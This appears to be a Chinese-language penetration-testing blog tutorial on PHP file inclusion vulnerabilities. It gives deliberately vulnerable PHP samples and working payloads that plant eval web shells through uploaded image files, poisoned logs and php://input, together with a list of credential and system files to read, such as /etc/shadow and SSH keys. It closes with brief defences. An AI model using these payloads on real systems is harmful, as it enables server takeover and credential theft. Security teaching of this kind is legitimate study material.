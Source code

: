 +++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

### 0x00 文件包含
程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。

在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。

### 0x01 常见文件包含函数
```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
* 执行任意代码
* 读取文件源码或敏感信息
* 包含恶意文件控制网站
* 甚至控制服务器

### 0x04 漏洞分类
* 本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    * 读敏感文件，读PHP文件
    * 包含日志文件GetShell
    * 上传图片马，然后包含从而GetShell
    * 包含/proc/self/envion文件GetShell
    * 包含data:或php://input等伪协议
    * 若有phpinfo则可以包含临时文件
* 远程文件包含：可以直接执行任意代码
    * 要保证php.ini中allow_url_fopen和allow_url_include要为On

### 0x05 漏洞挖掘
> 上AWVS或者自己写代码测试

### 0x06 本地包含GetShell
* 示例一

```php
<?php
    if (@$_GET['page']) {  
        include($_GET['page']);
    } else {  
        include "show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload1.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload1_check.png)

* 示例二

```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload2.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload2_check.png)

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=off)

```php
<?php
    if (@$_GET['page']) {
        include "./action/".$_GET['page'].".php";
        echo "./action/".$_GET['page'].".php";
    } else {
        include "./action/show.php";
    }
?>
```
![文件包含-上传图片马](/img/post/file_include_upload3.png)
![文件包含-验证能包含图片马](/img/post/file_include_upload3_check.png)
还有一个路径长度截断，Linux可以用./或/截断，需要文件名长度大于4096，Windows可以  
用\\.或./或\或/截断，需要大于256，是否能成功截断有多方面原因，可以说是靠运气的

* 包含图片马写shell

```
上传图片马，马包含的代码为<?fputs(fopen("shell.php","w"),"<?php eval($_POST[xxser]);?>")?>，
上传后图片路径为/uploadfile/201643.jpg，当访问
http://localhost/dvwa/vulnerabilities/fi/?page=../../uploadfile/201643.jpg时，
将会在fi这个文件夹下生成shell.php,内容为<?php eval($_POST[xxser]);?>
```

* 包含日志GetShell(主要是得到日志的路径)

```
读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
> 日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
![文件包含-包含日志](/img/post/file_include_access.log1.png)
可以通过Burp Suite来绕过编码
![文件包含-包含日志](/img/post/file_include_access.log2.png)
日志内容如下：
![文件包含-包含日志](/img/post/file_include_access.log3.png)
![文件包含-包含日志](/img/post/file_include_access.log4.png)

* 包含环境变量文件GetShell

```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

* 使用PHP封装协议GetShell

```
allow_url_include=On时,若执行http://www.xxx.com/index.php?page=php://input,并且提
交数据<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['xxxser']);?>") ?>
结果将在index.php所在文件下生成一句话文件shell.php
```
![文件包含-用PHP封装协议写shell1](/img/post/file_include_enprotocol1.png)
![文件包含-用PHP封装协议写shell2](/img/post/file_include_enprotocol2.png)

* phpinfo包含临时文件GetShell

```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

### 0x07 本地包含读文件
* 读敏感文件

![文件包含-读敏感文件](/img/post/file_include_read_file.png)

可读如下敏感文件：
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件源码

```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

### 0x08 远程包含
注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
![文件包含-远程包含](/img/post/file_include_remote_include.png)
若在a.txt写入```<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>```，可直接写shell

### 0x09 漏洞防御
```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```